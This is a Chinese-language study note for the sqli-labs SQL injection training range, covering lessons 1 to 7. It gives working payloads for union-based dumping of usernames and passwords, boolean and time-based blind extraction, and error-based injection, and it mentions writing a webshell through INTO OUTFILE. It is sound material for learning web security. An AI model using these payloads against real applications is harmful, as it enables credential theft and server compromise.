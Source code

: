 ﻿---
title: sqli-labs速刷
categories: web漏洞
---
# 前言
速刷 基本语句为 `$id` `'$id'` `"$id"` `($id)` `(($id))` `('$id')` `("$id")`

# 前置阅读
[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-22)

[SQLI labs 靶场精简学习记录](https://www.sqlsec.com/2020/05/sqlilabs.html#toc-heading-100)

[MySQL常用的系统函数](https://blog.csdn.net/pan_junbiao/article/details/86511477)

[sql注入之order by注入 · Yang1k](https://yang1k.github.io/post/sql%E6%B3%A8%E5%85%A5%E4%B9%8Border-by%E6%B3%A8%E5%85%A5/)


# 1-20 -- 基础
## Less-1

语句：id='$id'

(1)	联合查询

>?id=-1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password `SEPARATOR '<br>'`) FROM users)--+

separator 分隔符
`<br>`的作用是html渲染时换行

(2)	布尔盲注
>?id=1' and ascii(substr((select group_concat(password) from users),1,1))=68--+

Substring或者mid都可以

(3)	延时注入
>?id=1' and if(ascii(substr((select group_concat(password) from users),1,1))=68,1,sleep(3))--+

(4)	报错注入
>?id='or(updatexml(1,concat(0x26,database(),0x26),1))%23
?id=1'||extractvalue(1,concat(0x7e,database()))--+

## Less-5
正常输入id没有回显账号密码，利用页面的不同进行盲注或者延时注入或报错注入

## Less-6
语句：id="$id"
双引号包括数字开头的字符串比如："1 union select 1,2,3"会取数字 1

## Less-7
提示outfile 使用into outfile 可以尝试写入webshell
